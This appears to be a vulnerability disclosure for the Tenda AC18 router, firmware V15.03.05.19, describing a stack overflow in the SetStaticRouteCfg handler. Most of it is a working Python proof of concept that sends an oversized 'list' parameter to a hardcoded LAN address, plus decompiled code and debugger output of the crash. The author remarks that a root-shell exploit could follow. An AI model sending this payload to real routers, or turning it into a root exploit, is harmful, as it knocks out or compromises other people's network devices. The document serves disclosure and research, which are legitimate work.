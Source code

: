 # fromAddressNat

### Affected product

```
AC18 V15.03.05.19
```

/goform/SetStaticRouteCfg，list  is controllable and will eventually be spliced into para_2 by sscanf. It is worth noting that the size is not checked, resulting in a stack overflow vulnerability

### POC

```
import socket
import os

li = lambda x : print('\x1b[01;38;5;214m' + x + '\x1b[0m')
ll = lambda x : print('\x1b[01;38;5;1m' + x + '\x1b[0m')

ip = '192.168.0.119'
port = 80

r = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

r.connect((ip, port))

rn = b'\r\n'

p1 = b'a' * 0x1000
p2 = b'list' + p1

p3 = b"POST /goform/SetStaticRouteCfg" + b" HTTP/1.1" + rn
p3 += b"Host: 192.168.0.119" + rn
p3 += b"User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:102.0) Gecko/20100101 Firefox/102.0" + rn
p3 += b"Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8" + rn
p3 += b"Accept-Language: en-US,en;q=0.5" + rn
p3 += b"Accept-Encoding: gzip, deflate" + rn
p3 += b"Cookie: curShow=; ac_login_info=passwork; test=A; password=1111" + rn
p3 += b"Connection: close" + rn
p3 += b"Upgrade-Insecure-Requests: 1" + rn
p3 += (b"Content-Length: %d" % len(p2)) +rn
p3 += b'Content-Type: application/x-www-form-urlencoded'+rn
p3 += rn
p3 += p2

r.send(p3)

response = r.recv(4096)
response = response.decode()
li(response)
```

### Detail

```c
  v5 = sub_2BA8C(a1, "list", &unk_E5D48);
  v1 = sub_78390("adv.staticroute", v5, 126);
```

You can see the router crash, and finally we can write an exp to get a root shell

```
 ► 0xf65d6ed0 <sscanf+20>    bl     #__GI_vsscanf@plt <0xf65aff80>
                   r0: 0xf657d010 ◂— 0x61616161 ('aaaa')
                                                                                              		        r1: 0xe5cfc ◂— '%[^,],%[^,],%[^,],%s'
                   r2: 0xf6fff068 —▸ 0xf6fff0c4 ◂— 'kraaksaaktaakuaa'
                   r3: 0xf6fff0b4 ◂— 'knaakoaakpaakqaakraaksaaktaakuaa'


Invalid address 0x64616170

```


